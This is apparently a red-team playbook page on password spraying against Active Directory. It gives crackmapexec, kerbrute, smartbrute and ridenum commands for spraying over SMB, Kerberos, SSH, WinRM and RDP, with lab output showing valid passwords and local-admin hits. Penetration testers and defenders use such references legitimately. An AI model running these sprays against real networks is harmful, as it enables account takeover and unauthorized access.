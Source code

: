 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Active Directory Password Spraying
## Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@enum #@enumerate #@enumeration #@dns #@dhcp #@ldap #@smb #@network #@icmp #@ping #@sweep #@cve #@exploit #@vuln #@vulnerability #@vulnerabilities #@vulns

Tools

		#@impacket #@pcaptools #@pcap #@nmap #@zmap #@ldapsearch #@ldapsearch-ad #@rpcclient #@smbmap #@crackmapexec #@manspider #@adidnsdump #@dnsrecon #@enum4linux #@nopac

</p></details>


## References

## Overview
* Be very careful and record the password policies and lockout policies before launching sprays
* While tools like crackmapexec will accept the target `<domain>.<tld>`, the tooling may attempt to authenticate with the supplied credentials once for each domain controller.
* Spraying requires that you've created a list of potential usernames and potential passwords. However, some of the guesswork can be eliminated in some cases, as certain accounts are predictable or may otherwise be enumerated:
	* Valid accounts can be enumerated through RID Brute Forcing, or simply checking the username of your existing context following a phish ([`Valid Accounts` TTP](TTP/T1078_Valid_Accounts/T1078.md))


## Attacks
### From a Linux Machine

* Username Enumeration Spray ([`Account Discovery - Domain Account` TTP](TTP/T1087_Account_Discovery/002_Domain_Account/T1087.002.md))

#### No (pre-existing) Domain User Credentials Required (Usually)
* Username bruteforce
	* <details><summary>ridenum (Click to expand) -<br />[https://github.com/trustedsec/ridenum](https://github.com/trustedsec/ridenum)</summary><p>

			./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
		* Example

				./ridenum.py 10.0.0.1 500 50000
			* Example Output (Not successful)

					[*] Attempting lsaquery first...This will enumerate the base domain SID
					[*] Successfully enumerated base domain SID. Printing information: 
					Domain Name: MICROSOFTDELIVE
					Domain Sid: S-1-5-21-3553872434-4161952275-1892366499
					[*] Moving on to extract via RID cycling attack.. 
					[*] Enumerating user accounts.. This could take a little while.
					[!] Server sent NT_STATUS_ACCESS DENIED, unable to extract users.
					[*] Attempting enumdomusers to enumerate users...
					[!] Sorry. RIDENUM failed to successfully enumerate users. Bummers.
* Bruteforce, and optional "Stop On Fail"
	* <details><summary>smartbrute (Click to expand) -<br />[https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)</summary><p>
		* brute mode, users and passwords lists supplied

				smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
			* brute mode - standard bruteforcing features
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Simple spray, "continue on success" in case more than one user has a valid password

					crackmapexec smb -d $DOMAIN -u $WORKDIR/domain_user_list.txt -p $WORKDIR/domain_password_list.txt --continue-on-success $PRIMARY_DOMAIN_CONTROLLER
	* <details><summary>kerbrute (Click to expand) -<br />[https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)</summary><p>
		* Example

				./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
			* The attack will generate event IDs:
				* `4768` - A Kerberos authentication ticket (TGT) was requested
				* `4771` - Kerberos pre-authentication failed
				* `--safe` option will stop the password spray if an account is detected as locked out.
			* Flags
				* `bruteuser` - Bruteforce a single user's password from a wordlist
				* `passwordspray` - Test a single password against a list of users
				* `userenum` - Enumerate valid domain usernames via Kerberos
				* `bruteforce` - Read username:password combos from a file or stdin and test them

#### Domain User Credentials Required (Usually)
* Kerberos Pre-Auth
	* <details><summary>smartbrute (Click to expand) -<br />[https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* Choose transport (TCP/UDP)
				* UDP Notes
					* Fastest
					* Not stealthiest
					* False positives
					* `KRB_ERR_RESPONSE_TOO_BIG`
						* a valid authentication on a user part of too many groups
					* `KDC_ERR_PREAUTH_FAILED`
						* authentication attempt is invalid
			* Modes: `smart` or `brute`
				* smart mode, valid credentials supplied for enumeration
	 		* Choose etype: RC4, AES128, AES256 (RC4 fastest; AES128 and AES256 are the stealthiest.
				* RC4 keys (i.e. NT hashes) can be attempted
				* Kerberos pre-authentication bruteforce: this is the fastest and stealthiest way.
			* Supported Atacks
				* NTLM
					* Over SMB
						* Valid accounts are tested for local admin
					* Over LDAP
					* NT hashes can be attempted
				* Kerberos pre-auth
			* Flags
				* Optional
					* `-t` - threads (default: 10), Kerbrute is multithreaded and uses 10 threads. This can be changed with the  option.
					* `-v` Log failures (default: off)
					* `-o` Output is logged to stdout, but a log file can be specified with .
					* `--safe` Lastly, Kerbrute has a  option. When this option is enabled, if an account comes back as locked out, it will abort all threads to stop locking out any other accounts.
			 	* Required
					- `-d` (A domain) or `--dc` (domain controller)
						* If a Domain Controller is not given the KDC will be looked up via DNS.
				* After Success
					* Valid accounts can be set as owned in neo4j database
						* Owned users that are on a path to Domain Admins will be highlighted
			* <img src="https://raw.githubusercontent.com/ShutdownRepo/smartbrute/main/assets/graph_help.png" style="float": left; width="1200" />
		* Examples
			* Example 1: Smart Mode

					./smartbrute.py -v smart -bP ~/passwords.txt kerberos -d microsoftdelivery.com -u domain_user -p 'P@ssw0rd' --kdc-ip 10.0.0.1 ntlm
				* Example Output

						./smartbrute.py -v smart -bP ~/passwords.txt kerberos -d microsoftdelivery.com -u domain_user -p 'P@ssw0rd' --kdc-ip 10.0.0.1 ntlm

						[*] Starting bruteforce attack on passwords
						[*] Bad password counts dont replicate between domain controllers. Only the PDC knows the real amount of those. Be sure to target the PDC so that accounts don't get locked out
						[+] Successfully logged in, fetching domain information
						[VERBOSE] Fetching domain level lockout threshold
						[VERBOSE] Fetching granular lockout thresholds in Password Settings Containers
						[VERBOSE] Found global lockout threshold (0) and granular lockout thresholds ([])
						[VERBOSE] Found 9 users
						[+] Domain enumeration is over, starting attack
						┌───────────────────────┬─────────────────────┬──────────┬───────────────────────────┐
						│ domain                │ user                │ password │ details                   │
						├───────────────────────┼─────────────────────┼──────────┼───────────────────────────┤
						│ microsoftdelivery.com │ Administrator       │ P@ssw0rd │ admin account local admin │
						│ microsoftdelivery.com │ domain_admin        │ P@ssw0rd │ admin account local admin │
						│ microsoftdelivery.com │ domain_user         │ P@ssw0rd │                           │
						│ microsoftdelivery.com │ Domain_User_ADCS    │ P@ssw0rd │                           │
						│ microsoftdelivery.com │ domain_user_writer  │ P@ssw0rd │                           │
						│ microsoftdelivery.com │ domain_user_target  │ P@ssw0rd │                           │
						│ microsoftdelivery.com │ kerberoastable      │ P@ssw0rd │                           │
						│ microsoftdelivery.com │ domain_user_builtin │ P@ssw0rd │ special account           │
						└───────────────────────┴─────────────────────┴──────────┴───────────────────────────┘
			* Example 2: Brute Mode - Users and passwords lists supplied, no additional "intelligence" used

					smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
	* <details><summary>ridenum (Click to expand) -<br />[https://github.com/trustedsec/ridenum](https://github.com/trustedsec/ridenum)</summary><p>
		* Command

				./ridenum.py 10.0.0.1 500 50000 domain_user 'P@ssw0rd'
			* Example Output

					root@jack-Virtual-Machine:~/ridenum# ./ridenum.py 10.0.0.1 500 50000 domain_user 'P@ssw0rd'
					[*] Attempting lsaquery first...This will enumerate the base domain SID
					[*] Successfully enumerated base domain SID. Printing information: 
					Domain Name: MICROSOFTDELIVE
					Domain Sid: S-1-5-21-3553872434-4161952275-1892366499
					[*] Moving on to extract via RID cycling attack.. 
					[*] Enumerating user accounts.. This could take a little while.
					Account name: MICROSOFTDELIVE\Administrator
					Account name: MICROSOFTDELIVE\Guest
					Account name: MICROSOFTDELIVE\krbtgt
					Account name: MICROSOFTDELIVE\DC01$
					Account name: MICROSOFTDELIVE\domain_admin
					Account name: MICROSOFTDELIVE\domain_user
					Account name: MICROSOFTDELIVE\MSOL_acade27cae4b
					Account name: MICROSOFTDELIVE\AZUREADSSOACC$
					Account name: MICROSOFTDELIVE\DC02$
					Account name: MICROSOFTDELIVE\CA$
					Account name: MICROSOFTDELIVE\EXCHANGE$
					Account name: MICROSOFTDELIVE\APP$
					Account name: MICROSOFTDELIVE\WIN11$
					Account name: MICROSOFTDELIVE\Domain_User_ADCS
					Account name: MICROSOFTDELIVE\domain_user_writer
					Account name: MICROSOFTDELIVE\domain_user_target
					Account name: MICROSOFTDELIVE\DESKTOP-IHAD3T62$
					Account name: MICROSOFTDELIVE\dc01
					Account name: MICROSOFTDELIVE\kerberoastable
					Account name: MICROSOFTDELIVE\domain_user_builtin
					[*] RIDENUM has finished enumerating user accounts...
#### Local Authentication Spraying
* Spray over SMB
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Simple spray, "continue on success" in case more than one user has a valid password

					crackmapexec smb -d $DOMAIN -u $WORKDIR/domain_user_list.txt -p $WORKDIR/domain_password_list.txt --continue-on-success --local-auth $TARGETS

#### Alternative Protocol Spraying (Default is usually SMB)
* Spray over SSH
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Password spraying (without bruteforce)
	
					cme ssh 192.168.1.0/24 -u $userfile -p $passwordfile --no-bruteforce
				* Example Output

						SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
						SSH         127.0.0.1       22     127.0.0.1        [+] user:password
* Spray over WinRM
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Password spraying (without bruteforce)

					cme winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
* Spray over RDP
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Password spraying
			
					crackmapexec rdp 192.168.1.0/24 -u $user -p $password
				* Example Output

						$ poetry run crackmapexec rdp 192.168.133.157 -u ron -p October2021
						RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
						RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
						                                                                                                                                                                
						$ poetry run crackmapexec rdp 192.168.133.157 -u rubeus -p October2021
						RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
						RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
			* Example 2: Password spraying (without bruteforce)

					crackmapexec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
				* Example Output

						└─$ poetry run crackmapexec rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
						RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
						RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
						RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
						RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
* Check For Local Administrator Status
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Note
			* The credentials can be tested across many targets to check for local administrator password re-use
			* 
		* Example 1: Domain User

				crackmapexec smb targets -d domain.local -u username-list -p password-list
			* Note that systems where the user is a local administrator will appear with the tag **(Pwn3d!)** in the output.
			* Example Output

					crackmapexec smb dc01.microsoftdelivery.com -d microsoftdelivery.com -u domain_admin -p 'P@ssw0rd'
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					SMB         dc01.microsoftdelivery.com 445    DC01             [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
		* Example 2: Local User

				crackmapexec smb targets -d domain.local -u username-list -p password-list
			* Note that systems where the user is a local administrator will appear with the tag **(Pwn3d!)** in the output.
			* Example Output

					crackmapexec smb dc01.microsoftdelivery.com -d microsoftdelivery.com -u domain_admin -p 'P@ssw0rd'
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					SMB         dc01.microsoftdelivery.com 445    DC01             [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)

## Needs Research

* <details><summary>Needs Research (Click to expand)</summary><p>
	* SprayHound -<br />[https://github.com/Hackndo/sprayhound](https://github.com/Hackndo/sprayhound)
		* Python library to safely password spray in Active Directory, set pwned users as owned in Bloodhound and detect path to Domain Admins
	* CredMaster -<br />[https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)